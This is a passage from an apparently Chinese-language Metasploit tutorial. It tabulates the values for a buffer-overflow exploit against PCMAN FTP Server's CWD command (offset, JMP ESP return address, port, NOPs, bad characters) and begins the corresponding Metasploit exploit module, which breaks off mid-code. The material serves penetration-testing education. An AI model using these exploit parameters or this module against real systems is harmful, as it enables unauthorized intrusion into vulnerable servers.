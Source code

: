 # 收集精华

让我们从下表中找出需要从前面的漏洞中获取哪些基本值，以在 Metasploit 中生成等效模块：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2008` |
| 2. | 使用 JMP ESP 搜索在可执行模块中找到目标返回/跳转地址/值 | `0x71AB9372` |
| 3. | 目标端口 | `21` |
| 4. | 外壳代码的前导 NOP 字节数，用于删除不规则项 | `10` |
| 5. | 思维方式 | `CWD`命令后面是 2008 字节的垃圾数据，后面是 EIP、NOPs 和外壳代码 |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何帮助 FTP 进程，以及在 Metasploit 中创建漏洞利用模块是多么容易。

# 生成 Metasploit 模块

开始构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。然而，`Mona.py`脚本也可以动态生成特定于 Metasploit 的模块。我们将在本书的后面几节中看到如何使用`Mona.py`脚本生成快速利用漏洞。

现在让我们看一下 Metasploit 中利用漏洞的等效代码，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Ftp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PCMAN FTP Server Post-Exploitation CWD Command', 
      'Description'    => %q{ 
          This module exploits a buffer overflow vulnerability in PCMAN FTP 
      }, 
      'Author'         => 
          [ 
            'Nipun Jaswal' 
          ], 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'process', 
          'VERBOSE'  => true 
        }, 
      'Payload'        => 
        { 
          'Space'   => 1000, 
          'BadChars'  => "\x00\xff\x0a\x0d\x20\x40", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Windows XP SP2 English', 
            { 
              'Ret' => 0x71ab9372, 
              'Offset' => 2008 
            } 
          ], 
        ], 
      'DisclosureDate' => 'May 9 2016', 
      'DefaultTarget'  => 0)) 
register_options( 
```